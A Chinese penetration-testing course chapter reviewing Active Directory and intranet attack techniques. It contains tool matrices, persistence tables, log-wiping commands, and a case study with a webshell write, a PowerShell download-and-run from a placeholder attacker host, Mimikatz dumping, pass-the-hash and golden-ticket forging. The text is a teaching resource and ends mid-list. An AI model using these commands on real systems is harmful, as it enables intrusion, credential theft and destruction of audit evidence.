






# 第56章 总结与回顾：域渗透模块 + 高级篇总复习

> **难度等级：🟠 高等级**
>
> **预计学习时间：120分钟**
>
> **本章看点：域渗透知识图谱、内网渗透完整流程、高级篇必背知识点TOP45、工具矩阵、权限维持与痕迹清理汇总、5个综合案例、30道综合练习题**

::: tip 说明
恭喜大家！
学到这里，
我们的**高级篇**就全部结束了。

这一章是总结回顾章，
我们会把整个域渗透模块
以及高级篇的所有内容
做一个全面的梳理和总结。

主要内容包括：
- 域渗透知识图谱
- 内网渗透完整流程
- 高级篇必背知识点TOP45
- 内网渗透工具矩阵
- 权限维持技术汇总
- 痕迹清理技术汇总
- 5个综合案例
- 30道综合练习题

学完这一章，
你应该对整个内网渗透和域渗透
有一个完整的知识体系。

准备好了吗？
开始我们的总结之旅！
:::

---

## 56.1 域渗透知识图谱

### 56.1.1 域渗透全景图

```
域渗透完整知识体系
│
├── 第一阶段：信息收集
│   ├── 基础信息收集
│   │   ├── 域名/域控信息
│   │   ├── 用户/组/计算机
│   │   ├── OU/GPO/信任关系
│   │   └── SPN/委派/ACL
│   │
│   ├── 工具
│   │   ├── PowerView / SharpView
│   │   ├── ADModule
│   │   ├── ldapdomaindump
│   │   ├── ADRecon
│   │   └── BloodHound
│   │
│   └── 输出：域内完整信息
│
├── 第二阶段：权限获取
│   ├── 初始访问
│   │   ├── GPP密码
│   │   ├── 漏洞利用（MS17-010等）
│   │   ├── 钓鱼/社工
│   │   ├── 密码喷洒
│   │   └── 口令复用
│   │
│   ├── 本地提权
│   │   ├── Windows提权
│   │   └── Linux提权
│   │
│   └── 输出：目标机器权限
│
├── 第三阶段：凭据获取
│   ├── 凭据导出
│   │   ├── Mimikatz
│   │   ├── LaZagne
│   │   ├── SAM + SYSTEM
│   │   ├── NTDS.dit
│   │   └── 浏览器凭据
│   │
│   ├── 哈希/票据
│   │   ├── NTLM哈希
│   │   ├── Kerberos票据
│   │   └── 明文密码
│   │
│   └── 输出：各种凭据
│
├── 第四阶段：横向移动
│   ├── 哈希传递（PtH）
│   ├── 票据传递（PtT）
│   ├── WMI/WinRM/SMB
│   ├── RDP/VNC/SSH
│   ├── 代理/隧道
│   └── 输出：更多机器权限
│
├── 第五阶段：权限提升
│   ├── Kerberos攻击
│   │   ├── AS-REP Roasting
│   │   ├── Kerberoasting
│   │   ├── 黄金票据
│   │   ├── 白银票据
│   │   └── MS14-068
│   │
│   ├── 委派攻击
│   │   ├── 非约束委派
│   │   ├── 约束委派
│   │   └── RBCD
│   │
│   ├── ACL攻击
│   │   ├── DCSync
│   │   ├── 修改组成员
│   │   ├── 重置密码
│   │   └── ForceChangePassword
│   │
│   ├── NTLM Relay
│   │   ├── SMB中继
│   │   ├── LDAP中继
│   │   └── HTTP中继
│   │
│   ├── 漏洞利用
│   │   ├── Zerologon
│   │   ├── PrintNightmare
│   │   ├── MS17-010
│   │   ├── NoPAC
│   │   └── ...
│   │
│   ├── GPO攻击
│   ├── AD CS攻击
│   └── 输出：域管理员权限
│
└── 第六阶段：权限维持
    ├── 后门账户
    ├── 黄金票据
    ├── AdminSDHolder
    ├── DCShadow
    ├── 证书后门
    ├── ACL后门
    ├── 服务/计划任务
    └── 输出：持久化访问
```

### 56.1.2 核心攻击路径总结

**图56-1 域渗透完整知识体系六阶段流程图**



| 攻击路径 | 所需条件 | 效果 | 难度 |
|----------|----------|------|------|
| Kerberoasting | 普通域用户 | 服务账号密码 | 🟡 |
| AS-REP Roasting | 普通域用户 | 用户密码（无预认证） | 🟡 |
| 哈希传递 | NTLM哈希 | 远程登录 | 🟢 |
| 非约束委派 | 控制配置了非约束委派的机器 | 获取登录用户TGT | 🟠 |
| 约束委派 | 机器/服务账号哈希 | 模拟用户访问指定服务 | 🟠 |
| RBCD | 目标机器写权限 | 模拟任意用户登录目标 | 🟠 |
| DCSync | 复制权限 | 所有用户哈希 | 🔴 |
| NTLM Relay | 能捕获认证 + 目标无签名 | 目标机器权限 | 🟠 |
| Zerologon | 网络访问域控 | 重置机器密码 | 🔴 |
| PrintNightmare | 普通域用户 | 远程代码执行 | 🔴 |
| GPP密码 | SYSVOL读取权限 | 明文密码 | 🟡 |
| GPO攻击 | GPO写权限 | OU内机器权限 | 🟠 |

---

## 56.2 内网渗透完整流程

### 56.2.1 标准内网渗透流程

```
外网打点 → 边界突破 → 信息收集 → 权限提升
    → 横向移动 → 凭据获取 → 域内渗透 → 拿下域控
    → 权限维持 → 痕迹清理 → 成果整理
```

### 56.2.2 各阶段详细说明

**第一阶段：外网打点**
- 目标：找到外网入口
- 方法：端口扫描、漏洞扫描、Web渗透、社工
- 输出：外网服务器权限

**第二阶段：边界突破**
- 目标：进入内网
- 方法：WebShell提权、漏洞利用、密码复用
- 输出：内网一台机器的权限

**第三阶段：信息收集**
- 目标：了解内网环境
- 方法：网络扫描、系统信息、域信息收集
- 输出：内网拓扑、域结构、资产清单

**第四阶段：权限提升**
- 目标：获取更高权限
- 方法：本地提权、服务漏洞、配置错误
- 输出：本地管理员/系统权限

**第五阶段：横向移动**
- 目标：控制更多机器
- 方法：哈希传递、票据传递、WMI、SMB
- 输出：更多机器的控制权

**第六阶段：凭据获取**
- 目标：获取更多凭据
- 方法：Mimikatz、SAM导出、NTDS导出
- 输出：更多账号密码/哈希

**第七阶段：域内渗透**
- 目标：拿下域管理员/域控
- 方法：Kerberos攻击、委派攻击、DCSync、漏洞利用
- 输出：域管理员权限

**第八阶段：权限维持**
- 目标：保持长期访问
- 方法：后门账户、黄金票据、服务后门、WebShell
- 输出：持久化访问能力

**第九阶段：痕迹清理**
- 目标：清除操作痕迹
- 方法：日志清除、文件删除、注册表清理
- 输出：无痕迹退出

**图56-2 内网渗透完整九阶段流程图**



---

## 56.3 高级篇必背知识点TOP45

### 56.3.1 Metasploit模块（8个）

1. **MSF架构** - Exploits、Payloads、Auxiliary、Post、Encoders、Nops
2. **msfconsole常用命令** - search、use、show options、set、exploit
3. **Meterpreter核心功能** - 文件操作、网络操作、系统操作、凭据窃取
4. **msfvenom** - Payload生成，支持多种格式
5. **后渗透模块** - 信息收集、提权、横向移动
6. **端口转发** - portfwd命令
7. **路由转发** - autoroute命令
8. **持久化** - persistence模块

### 56.3.2 提权模块（10个）

9. **Windows权限系统** - 用户、组、权限、令牌
10. **常见提权路径** - 内核漏洞、服务配置、计划任务、注册表
11. **PowerUp** - PowerShell提权辅助脚本
12. **WinPEAS** - Windows权限提升枚举脚本
13. **Unquoted Service Paths** - 服务路径未加引号
14. **AlwaysInstallElevated** - 安装包提权
15. **SeImpersonatePrivilege** - 令牌模拟权限（JuicyPotato等）
16. **Linux SUID/SGID** - 特殊权限位提权
17. **sudo配置错误** - sudo提权
18. **Dirty COW / Dirty Pipe** - 内核漏洞提权

### 56.3.3 横向移动模块（8个）

19. **内网信息收集** - 网络、系统、域信息
20. **哈希传递（PtH）** - 使用NTLM哈希认证
21. **票据传递（PtT）** - 使用Kerberos票据认证
22. **WMI执行** - wmic、wmiexec
23. **SMB执行** - psexec、smbexec
24. **WinRM执行** - winrs、evil-winrm
25. **代理转发** - 端口转发、SOCKS代理
26. **隧道技术** - ICMP隧道、DNS隧道、HTTP隧道

### 56.3.4 域渗透模块（19个）

27. **活动目录基础** - 域、树、林、信任、FSMO
28. **Kerberos协议** - AS/TGS/AP三大交换
29. **TGT与ST** - 票据授予票据与服务票据
30. **AS-REP Roasting** - 无预认证用户攻击
31. **Kerberoasting** - SPN服务账号攻击
32. **黄金票据** - 伪造TGT
33. **白银票据** - 伪造ST
34. **MS14-068** - PAC漏洞
35. **非约束委派** - 获取用户TGT
36. **约束委派** - S4U攻击
37. **基于资源的约束委派（RBCD）** - 修改msDS-AllowedToActOnBehalfOfOtherIdentity
38. **DCSync** - 目录复制攻击
39. **DCShadow** - 伪装域控修改AD
40. **NTLM Relay** - NTLM中继攻击
41. **BloodHound** - 攻击路径分析
42. **GPO攻击** - 组策略滥用
43. **GPP密码** - 组策略首选项密码
44. **Zerologon** - CVE-2020-1472
45. **PrintNightmare** - CVE-2021-1675

**图56-3 高级篇必背知识点TOP45模块分布图**



---

## 56.4 内网渗透工具矩阵

### 56.4.1 信息收集类

| 工具名 | 语言/平台 | 功能 | 特点 |
|--------|-----------|------|------|
| PowerView | PowerShell | 域内信息收集 | 功能全面，经典 |
| SharpView | C# | 域内信息收集 | 免杀好 |
| ADModule | PowerShell | AD管理模块 | 微软官方 |
| ldapdomaindump | Python | LDAP信息导出 | 输出HTML |
| ADRecon | PowerShell | AD信息收集 | 详细报告 |
| BloodHound | Electron + Neo4j | 可视化分析 | 攻击路径 |
| CrackMapExec | Python | 批量扫描/测试 | 瑞士军刀 |
| Nmap | C | 端口扫描 | 经典工具 |
| Masscan | C | 大规模端口扫描 | 速度快 |

### 56.4.2 凭据获取类

| 工具名 | 语言/平台 | 功能 | 特点 |
|--------|-----------|------|------|
| Mimikatz | C | 凭据导出 | 经典神器 |
| LaZagne | Python | 多平台密码提取 | 支持软件多 |
| Impacket | Python | 网络协议工具集 | 功能全面 |
| Rubeus | C# | Kerberos工具 | 票据操作 |
| Mimikatz | C | 哈希/票据导出 | 经典 |
| secretsdump | Python | 哈希导出 | Impacket套件 |
| Pypykatz | Python | Mimikatz的Python实现 | 跨平台 |

### 56.4.3 横向移动类

| 工具名 | 语言/平台 | 功能 | 特点 |
|--------|-----------|------|------|
| PsExec | Windows | SMB远程执行 | 微软官方 |
| wmiexec.py | Python | WMI远程执行 | Impacket |
| smbexec.py | Python | SMB远程执行 | Impacket |
| evil-winrm | Ruby | WinRM远程Shell | 功能强大 |
| CrackMapExec | Python | 批量横向移动 | 协议支持多 |
| Impacket套件 | Python | 多种协议执行 | 工具集 |
| pth-toolkit | Python | 哈希传递工具 | 经典工具集 |

### 56.4.4 代理隧道类

| 工具名 | 语言/平台 | 功能 | 特点 |
|--------|-----------|------|------|
| EarthWorm | C | SOCKS代理/端口转发 | 轻量快速 |
| FRP | Go | 反向代理 | 功能强大 |
| Ngrok | Go | 内网穿透 | 简单易用 |
| reGeorg / Neo-reGeorg | Python + PHP/ASP | Webshell代理 | 适合WebShell |
| icmpsh | C | ICMP隧道 | 绕过防火墙 |
| dns2tcp | C | DNS隧道 | 隐蔽 |
| Cobalt Strike | - | C2框架 | 专业级 |
| Metasploit | Ruby | 渗透测试框架 | 功能全面 |

### 56.4.5 域渗透专用工具

| 工具名 | 语言/平台 | 功能 | 特点 |
|--------|-----------|------|------|
| Rubeus | C# | Kerberos操作 | 票据相关攻击 |
| Mimikatz | C | 多种域渗透功能 | 全能 |
| BloodHound | - | 攻击路径分析 | 可视化 |
| SharpHound | C# | BloodHound数据收集 | 数据采集端 |
| PowerView | PowerShell | 域信息收集 | 信息收集 |
| ADModule | PowerShell | AD管理 | 官方工具 |
| SharpGPOAbuse | C# | GPO滥用 | 组策略攻击 |
| Certify | C# | AD CS枚举/利用 | 证书攻击 |
| PetitPotam | Python | 认证胁迫 | EFSRPC |
| DFSCoerce | Python | 认证胁迫 | DFS |

**图56-4 内网渗透工具矩阵与分类全览图**



---

## 56.5 权限维持技术汇总

### 56.5.1 Windows权限维持

| 技术 | 所需权限 | 持久化程度 | 检测难度 | 说明 |
|------|----------|------------|----------|------|
| 注册表Run键 | 管理员 | 中 | 低 | 开机自启动 |
| 注册表RunOnce | 管理员 | 低 | 低 | 运行一次 |
| 计划任务 | 管理员 | 中 | 中 | 定时执行 |
| 服务后门 | 系统 | 高 | 中 | 系统服务 |
| WMI事件订阅 | 管理员 | 高 | 高 | 事件触发 |
| 映像劫持 | 管理员 | 中 | 中 | IFEO |
| 粘滞键 | 系统 | 高 | 低 | 5次Shift |
| 注册表Winlogon | 管理员 | 中 | 低 | 用户登录时执行 |

### 56.5.2 域环境权限维持

| 技术 | 所需权限 | 持久化程度 | 检测难度 | 说明 |
|------|----------|------------|----------|------|
| 黄金票据 | krbtgt哈希 | 极高 | 中 | 永久域管理员 |
| 白银票据 | 服务账号哈希 | 高 | 高 | 指定服务访问 |
| 钻石票据 | krbtgt哈希 + 真实TGT | 极高 | 极高 | 修改真实票据 |
| AdminSDHolder | 域管理员 | 高 | 中 | 修改受保护组权限 |
| DCShadow | 域管理员 | 高 | 高 | 伪装域控修改AD |
| ACL后门 | 域管理员 | 高 | 高 | 修改对象ACL |
| 证书后门 | 域管理员 | 极高 | 中 | AD CS证书 |
| 隐藏用户 | 管理员 | 中 | 低 | $结尾用户名 |
| SID历史注入 | 域管理员 | 高 | 中 | SID History属性 |

### 56.5.3 WebShell后门

| 类型 | 特点 | 适用场景 |
|------|------|----------|
| 一句话木马 | 体积小，隐蔽 | 快速上传 |
| 大马 | 功能全面 | 长期控制 |
| 内存马 | 无文件，难检测 | 高级持久化 |
| 免杀马 | 绕过杀毒软件 | 有防护的环境 |

### 56.5.4 Rootkit技术

| 类型 | 层级 | 隐蔽性 | 说明 |
|------|------|--------|------|
| 用户级Rootkit | 用户层 | 中 | 修改用户态程序 |
| 内核级Rootkit | 内核层 | 高 | 加载内核驱动 |
| 固件Rootkit | 固件层 | 极高 | BIOS/UEFI固件 |
| Bootkit | 引导层 | 极高 | MBR/VBR感染 |

**图56-5 权限维持技术分类与隐蔽性对比图**



---

## 56.6 痕迹清理技术汇总

### 56.6.1 日志清理

**Windows日志清理：**

```cmd
:: 查看日志
wevtutil el

:: 清除所有日志
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

:: 或者使用PowerShell
wevtutil el | ForEach-Object { wevtutil cl $_ }

:: 删除单个日志条目（需要工具）
# 使用EventViewer或者专门的工具
```

**Linux日志清理：**

```bash
# 清空日志文件
> /var/log/auth.log
> /var/log/syslog
> /var/log/messages

# 删除bash历史
history -c
rm -rf ~/.bash_history

# 清空utmp/wtmp/btmp
> /var/log/wtmp
> /var/log/btmp
> /var/run/utmp
```

### 56.6.2 文件痕迹清理

```cmd
:: 删除文件
del /f /q 文件路径

:: 删除目录
rmdir /s /q 目录路径

:: 清除回收站
rd /s /q C:\$Recycle.Bin

:: 清除最近打开的文件
del /f /q %APPDATA%\Microsoft\Windows\Recent\*

:: 清除预取文件
del /f /q C:\Windows\Prefetch\*
```

### 56.6.3 注册表痕迹清理

```cmd
:: 清除运行历史
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" /va /f

:: 清除TypedURLs（IE历史）
reg delete "HKCU\Software\Microsoft\Internet Explorer\TypedURLs" /va /f

:: 清除远程桌面连接历史
reg delete "HKCU\Software\Microsoft\Terminal Server Client\Default" /va /f
```

### 56.6.4 网络痕迹清理

```cmd
:: 清除ARP缓存
arp -d *

:: 清除DNS缓存
ipconfig /flushdns

:: 清除NetBIOS缓存
nbtstat -R

:: 清除网络连接
net use * /del /y
```

::: warning 注意
痕迹清理不等于完全隐身。
现代的EDR、SIEM系统
会有多种检测手段。

专业的红队操作
应该尽量**减少操作痕迹**，
而不是事后清理。
:::

---

## 📚 综合案例1：从外网打点到域控的完整路径

### 场景描述
你是一名红队队员，
接到任务对某企业进行渗透测试。

目标：从外网打入，最终拿下域控。

### 攻击过程

**第一步：外网信息收集**

```bash
# 子域名收集
subfinder -d target.com -o subdomains.txt

# 端口扫描
nmap -sV -p- -iL subdomains.txt -oN ports.txt

# Web漏洞扫描
# 对发现的Web站点进行漏洞扫描
```

发现：
- 主站：www.target.com（无明显漏洞）
- 邮件系统：mail.target.com（Outlook Web App）
- VPN：vpn.target.com
- 测试站：test.target.com（存在SQL注入）

**第二步：利用SQL注入获取WebShell**

在test.target.com上发现SQL注入，
通过注入获取了数据库权限，
然后写入WebShell。

```sql
-- 获取WebShell
SELECT '<?php eval($_POST[cmd]);?>' INTO OUTFILE 'C:/wwwroot/test/shell.php'
```

**第三步：WebShell提权**

连接WebShell后，
发现是IIS环境，
当前权限是IIS APPPOOL用户。

上传PowerUp进行提权检查：

```powershell
# 上传PowerUp并执行
IEX (New-Object Net.WebClient).DownloadString("http://攻击者IP/PowerUp.ps1")
Invoke-AllChecks
```

发现 `AlwaysInstallElevated` 已启用，
可以通过MSI安装包提权。

生成MSI木马并执行，
成功拿到System权限。

**第四步：内网信息收集**

```cmd
:: 查看网络配置
ipconfig /all

:: 查看域信息
echo %userdomain%
net user /domain
```

发现这台机器在域内：`TARGET.LOCAL`
当前是本地System权限。

**第五步：凭据获取**

```
:: 上传Mimikatz导出凭据
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

获取到了一个域用户的凭据：
- 用户名：svc_web
- 密码：WebService@2023

**第六步：域内信息收集**

用svc_web账号进行域内信息收集。

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://攻击者IP/PowerView.ps1")

# 收集域用户
Get-NetUser

# 收集域计算机
Get-NetComputer

# 收集SPN
Get-NetUser -SPN
```

发现有一个MSSQL服务账号
配置了SPN，可以Kerberoast。

**第七步：Kerberoasting攻击**

```bash
# 使用Impacket进行Kerberoasting
GetUserSPNs.py target.local/svc_web:WebService@2023 -dc-ip 10.0.0.1 -request -outputfile hashes.txt
```

成功获取到MSSQL服务账号的票据，
用Hashcat破解：

```bash
hashcat -m 13100 hashes.txt wordlist.txt -O
```

破解成功，密码是：`MssqlP@ssw0rd!`

**第八步：登录数据库服务器**

```bash
# 使用psexec登录
psexec.py target.local/sql_svc:MssqlP@ssw0rd!@10.0.0.20
```

成功拿到数据库服务器的System权限。

**第九步：BloodHound分析**

在数据库服务器上运行SharpHound，
收集数据后导入BloodHound分析。

发现攻击路径：
```
sql_svc → 是ServerAdmins组的成员 → 
ServerAdmins组对某GPO有编辑权限 → 
该GPO链接到ServerOU → 
ServerOU中有域控备份服务器 → 
备份服务器上有域管登录
```

**第十步：GPO攻击提权**

```cmd
:: 使用SharpGPOAbuse修改GPO
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author target\Administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators sql_svc /add" --GPOName "Server Policy"
```

等待GPO刷新，
sql_svc成为备份服务器的本地管理员。

**第十一步：获取域管凭据**

登录备份服务器，
等待域管理员登录。

几天后，域管理员登录了备份服务器，
用Mimikatz导出凭据：

```
privilege::debug
sekurlsa::logonpasswords
```

成功获取域管理员的NTLM哈希。

**第十二步：登录域控**

```bash
# 使用哈希传递登录域控
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb target.local/Administrator@10.0.0.1
```

成功拿下域控！

**第十三步：权限维持**

```
# 制作黄金票据
kerberos::golden /user:Administrator /domain:target.local /sid:S-1-5-21-... /krbtgt:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /ptt
```

保存好krbtgt哈希和黄金票据，
完成任务。

### 经验总结
1. 渗透测试是一个循序渐进的过程
2. 信息收集贯穿始终
3. 每一步都要仔细，不放过任何细节
4. 多种攻击方法组合使用效果更好
5. BloodHound是域渗透的神器

**图56-6 综合案例1：从外网打点到域控完整攻击路径图**



---

## 📚 综合案例2：域渗透面试题精选

### 基础题

**Q1：什么是活动目录？它的主要组件有哪些？**

A：活动目录（Active Directory，AD）是微软的目录服务，
用于存储网络上的对象信息并管理这些对象。

主要组件包括：
- 域控制器（DC）：运行AD DS的服务器
- 域（Domain）：一组计算机和用户的集合
- 树（Tree）：一个或多个域的集合
- 林（Forest）：一个或多个域树的集合
- OU（组织单元）：用于组织和管理对象
- 组策略（GPO）：用于集中配置管理

**Q2：Kerberos认证的流程是什么？**

A：Kerberos认证分为三步：

1. **AS交换** - 客户端向KDC的AS请求TGT
   - 客户端发送AS-REQ（包含用户信息和预认证数据）
   - KDC验证用户身份，返回AS-REP（包含TGT和会话密钥）

2. **TGS交换** - 客户端向KDC的TGS请求服务票据
   - 客户端发送TGS-REQ（包含TGT和服务SPN）
   - TGS验证TGT，返回TGS-REP（包含服务票据ST）

3. **AP交换** - 客户端向目标服务器请求服务
   - 客户端发送AP-REQ（包含ST和认证符）
   - 服务器验证ST，返回AP-REP（可选）

**Q3：黄金票据和白银票据的区别？**

A：

| 特性 | 黄金票据（Golden Ticket） | 白银票据（Silver Ticket） |
|------|--------------------------|--------------------------|
| 伪造的票据 | TGT（票据授予票据） | ST（服务票据） |
| 需要的哈希 | krbtgt账户的哈希 | 服务账号的哈希 |
| 访问范围 | 任意服务 | 特定服务 |
| 需要和KDC交互 | 不需要（直接伪造TGT） | 不需要（直接伪造ST） |
| 权限 | 域管理员级别 | 指定服务权限 |
| 检测难度 | 中等 | 较高 |

### 进阶题

**Q4：什么是DCSync？利用条件是什么？**

A：DCSync是一种攻击技术，
攻击者模拟域控制器，
通过目录复制服务（DRS）协议
从真实域控复制数据，
从而获取域内所有用户的哈希。

利用条件：
- 账户需要有以下三个权限：
  - DS-Replication-Get-Changes
  - DS-Replication-Get-Changes-All
  - DS-Replication-Get-Changes-In-Filtered-Set
- 能够访问域控的DRS服务

默认情况下，
只有域管理员、企业管理员、
域控账户才有这些权限。

**Q5：什么是非约束委派？怎么利用？**

A：非约束委派（Unconstrained Delegation）
允许服务代表用户访问任意服务。

利用方法：
1. 找到配置了非约束委派的机器/服务
2. 控制这台机器
3. 诱导高权限用户（如域管理员）访问这台机器
   - 可以用Printer Bug、PetitPotam等
4. 从内存中导出用户的TGT
5. 使用TGT进行Pass-the-Ticket攻击

### 实操题

**Q6：拿到一台域内机器的普通用户权限，你接下来会怎么做？**

A：我的思路是这样的：

1. **基础信息收集**
   - 查看本机信息：ipconfig、whoami、net user
   - 查看域信息：net user /domain、net group /domain
   - 查看网络环境：net view、arp -a

2. **本地提权**
   - 上传PowerUp/WinPEAS检查提权点
   - 尝试本地提权获取System权限

3. **凭据导出**
   - 用Mimikatz导出内存中的凭据
   - 导出SAM和System获取本地哈希
   - 查找浏览器、软件保存的密码

4. **域内信息收集**
   - 使用PowerView/SharpView收集域信息
   - 运行SharpHound收集数据，用BloodHound分析
   - 查找攻击路径

5. **横向移动**
   - 用获取到的凭据尝试访问其他机器
   - 哈希传递、票据传递
   - 扩大控制范围

6. **权限提升**
   - 尝试各种域渗透攻击：
     - Kerberoasting
     - AS-REP Roasting
     - 委派攻击
     - GPO攻击
     - ACL攻击
     - ...

7. **拿下域控**
   - 获取域管理员权限
   - DCSync获取所有哈希
   - 制作黄金票据

8. **权限维持**
   - 留后门
   - 清理痕迹

**Q7：怎么检测内网中是否存在BloodHound数据收集行为？**

A：可以从以下几个方面检测：

1. **日志检测**
   - 大量的LDAP查询日志
   - 异常的SAMR查询
   - 异常的会话查询（NetSessionEnum）

2. **流量检测**
   - 短时间内大量的SMB连接
   - 大量的LDAP查询流量
   - 异常的RPC调用

3. **端点检测**
   - SharpHound/PowerView等工具的执行
   - 异常的PowerShell脚本执行
   - 大量的远程注册表访问

4. **行为检测**
   - 普通用户大量查询域内信息
   - 非工作时间的大量查询
   - 单台机器扫描大量主机

> 💡 **全局视角：完整内网渗透攻击链——从外到内的"十步一体"**
>
> 学完整个高级篇（提权+内网信息收集+横向移动+域渗透），
> 你应该能够串联起完整的攻击链条。这里用一个真实的攻击路径
> 来总结所有知识点是如何配合使用的：
>
> ```
> 完整内网渗透攻击链（十步一体）
> ════════════════════════════════════════════════
>
> 阶段一：外网突破（入口）
> ① 外网信息收集 → 发现目标公网Web服务
> ② Web漏洞利用 → SQL注入拿到WebShell
> ③ 上传后门 → 获得对Web服务器的控制
>
> 阶段二：初步立足（站稳）
> ④ Windows提权 → IIS应用池→SYSTEM（利用SeImpersonate/Potato）
> ⑤ 凭据抓取 → Mimikatz抓到Web服务域账号 Hash
> ⑥ 内网信息收集 → 发现所在域、域控IP、存活主机
>
> 阶段三：横向扩张（扩散）
> ⑦ 哈希传递 → 用Web服务账号Hash横向到其他服务器
> ⑧ 代理搭建 → 通过Web服搭建Socks代理，访问内网
> ⑨ BloodHound分析 → 找到通往域管的最短路径
>
> 阶段四：终极目标（拿下域控）
> ⑩ 域渗透收尾：
>     → 定位域管会话的机器 → 横向移动过去
>     → 抓到域管理员Hash → DCSync导出所有Hash
>     → 拿到krbtgt Hash → 制作黄金票据 → 永久控制整个域
>
> 看懂这个链条了吗？
> 每一章的知识在这里串起来了：
> 信息收集(⑥) → 提权(④) → 凭据抓取(⑤) → 横向移动(⑦) → 代理(⑧) → 域渗透(⑨⑩)
> ```
>
> **为什么实战中这个链条能成立？——三个"可利用"**
>
> 1. **配置可利用**：企业为了方便管理做的配置，被攻击者利用了
>    - 域管理员可远程登录所有服务器（方便运维 → 方便横向）
>    - 服务账号用弱密码/共用密码（方便部署 → 方便爆破/复用）
>
